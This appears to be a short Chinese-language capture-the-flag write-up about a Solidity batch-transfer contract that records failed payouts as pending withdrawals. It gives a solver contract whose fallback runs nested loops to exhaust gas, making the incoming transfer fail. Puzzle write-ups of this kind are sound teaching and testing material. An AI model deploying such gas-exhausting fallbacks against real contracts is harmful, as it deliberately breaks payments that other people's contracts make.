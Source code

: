 这一次多加了个call, 查资料发现这个是处理转账失败的，于是我们要让这个call失败。

```solidity
contract BatchTransfer {
    mapping(address => uint256) public pendingWithdrawals;

    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            (bool success, ) = recipients[i].call{value: amounts[i]}("");
            if (!success) {
                pendingWithdrawals[recipients[i]] += amounts[i];
            }
        }
    }

    function withdrawPending() external {
        uint256 amount = pendingWithdrawals[msg.sender];
        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        require(success, "Withdrawal failed");
    }
}
```

资料还说，如果call传入空会调用fallback，于是我们让fallback消耗掉所有的gas就好了。

```solidity
contract BatchTransfer {
    event Received(address caller, uint256 amount, string message);

    fallback() external payable {
        uint256 i;
        uint256 amount;
        for (i = 0; i < (1 << 255); i++) {
            for (i = 0; i < (1 << 255); i++) {
                amount += i;
            }
        }
        emit Received(msg.sender, msg.value, "Fallback was called");
    }
}
```

